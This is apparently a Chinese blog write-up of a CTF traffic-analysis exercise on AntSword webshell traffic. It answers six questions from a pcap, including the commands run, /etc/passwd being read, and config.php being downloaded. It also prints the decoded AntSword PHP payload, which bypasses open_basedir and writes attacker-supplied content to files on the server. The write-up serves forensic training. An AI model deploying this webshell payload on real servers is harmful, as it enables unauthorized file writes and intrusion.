 # 第六章-流量特征分析-蚁剑流量分析

  
  
&lt;!--more--&gt;  
1.木马的连接密码是多少  
2.黑客执行的第一个命令是什么  
3.黑客读取了哪个文件的内容，提交文件绝对路径  
4.黑客上传了什么文件到服务器，提交文件名  
5.黑客上传的文件内容是什么  
6.黑客下载了哪个文件，提交文件绝对路径  
## 0x00 环境  
`Antsword.pcap`  
## 0x01  
利用`CTF-NETA`进行分析  
1.木马的连接密码是多少  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202405291940604.png)
`flag{1}`  
2.黑客执行的第一个命令是什么  
第一个返回的是`www-data`，所以猜测是`id`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202405291931976.png)
`flag{id}`  
3.黑客读取了哪个文件的内容，提交文件绝对路径  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202405291943545.png)
返回了`/etc/passwd`的内容，所以应该是`/etc/passwd`  
`flag{/etc/passwd}`  
4.黑客上传了什么文件到服务器，提交文件名  
5.黑客上传的文件内容是什么  
*解密一下流量*  
*![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202405291945414.png)
```php  
&lt;?php  
@ini_set(&#34;display_errors&#34;, &#34;0&#34;);  
@set_time_limit(0);  
$opdir = @ini_get(&#34;open_basedir&#34;);  
if ($opdir) {  
    $ocwd = dirname($_SERVER[&#34;SCRIPT_FILENAME&#34;]);  
    $oparr = preg_split(base64_decode(&#34;Lzt8Oi8=&#34;), $opdir);@  
    array_push($oparr, $ocwd, sys_get_temp_dir());  
    foreach($oparr as $item) {  
        if (!@is_writable($item)) {  
            continue;  
        };  
        $tmdir = $item.  
        &#34;/.368479785&#34;;@  
        mkdir($tmdir);  
        if (!@file_exists($tmdir)) {  
            continue;  
        }  
        $tmdir = realpath($tmdir);@  
        chdir($tmdir);@  
        ini_set(&#34;open_basedir&#34;, &#34;..&#34;);  
        $cntarr = @preg_split(&#34;/\\\\|\//&#34;, $tmdir);  
        for ($i = 0; $i &lt; sizeof($cntarr); $i&#43;&#43;) {@  
            chdir(&#34;..&#34;);  
        };@  
        ini_set(&#34;open_basedir&#34;, &#34;/&#34;);@  
        rmdir($tmdir);  
        break;  
    };  
};;  
  
function asenc($out) {  
    return $out;  
};  
  
function asoutput() {  
    $output = ob_get_contents();  
    ob_end_clean();  
    echo &#34;6960&#34;.  
    &#34;cb205&#34;;  
    echo@ asenc($output);  
    echo &#34;1e0a&#34;.  
    &#34;91914&#34;;  
}  
ob_start();  
try {  
    $f = base64_decode(substr($_POST[&#34;t41ffbc5fb0c04&#34;], 2));  
    $c = $_POST[&#34;ld807e7193493d&#34;];  
    $c = str_replace(&#34;\r&#34;, &#34;&#34;, $c);  
    $c = str_replace(&#34;\n&#34;, &#34;&#34;, $c);  
    $buf = &#34;&#34;;  
    for($i=0;$i&lt;strlen($c);$i&#43;=2)  
        $buf.=urldecode(&#34;%&#34;.substr($c,$i,2));  
        echo(@fwrite(fopen($f,&#34;a&#34;),$buf)?&#34;1&#34;:&#34;0&#34;);;}  
    catch(Exception $e){  
        echo &#34;ERROR://&#34;.$e-&gt;getMessage();  
    };  
    asoutput();  
    die();  
?&gt;  
```  
解密一下文件名  
```php  
&lt;?php   
$f = base64_decode(substr(&#34;0ZL3Zhci93d3cvaHRtbC9mbGFnLnR4dA==&#34;, 2));  
$c = &#34;666C61677B77726974655F666C61677D0A&#34;;  
$c = str_replace(&#34;\r&#34;, &#34;&#34;, $c);  
$c = str_replace(&#34;\n&#34;, &#34;&#34;, $c);  
$buf = &#34;&#34;;  
for($i=0;$i&lt;strlen($c);$i&#43;=2)  
    $buf.=urldecode(&#34;%&#34;.substr($c,$i,2));  
    echo(@fwrite(fopen($f,&#34;a&#34;),$buf)?&#34;1&#34;:&#34;0&#34;);  
?&gt;  
```  
在`/var/www/html`下写入了`flag.txt`文件，并且内容为`flag{write_flag}`  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202405292002152.png)
6.黑客下载了哪个文件，提交文件绝对路径  
wireshark中的流量解密  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202405292004425.png)
可以看到是一个下载文件的请求，将`2eL3Zhci93d3cvaHRtbC9jb25maWcucGhw`进行解密得到  
![](https://picture-1304797147.cos.ap-nanjing.myqcloud.com/picture/202405292005079.png)
`flag{/var/www/html/config.php}`  
  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/%E7%AC%AC%E5%85%AD%E7%AB%A0-%E6%B5%81%E9%87%8F%E7%89%B9%E5%BE%81%E5%88%86%E6%9E%90-%E8%9A%81%E5%89%91%E6%B5%81%E9%87%8F%E5%88%86%E6%9E%90/  

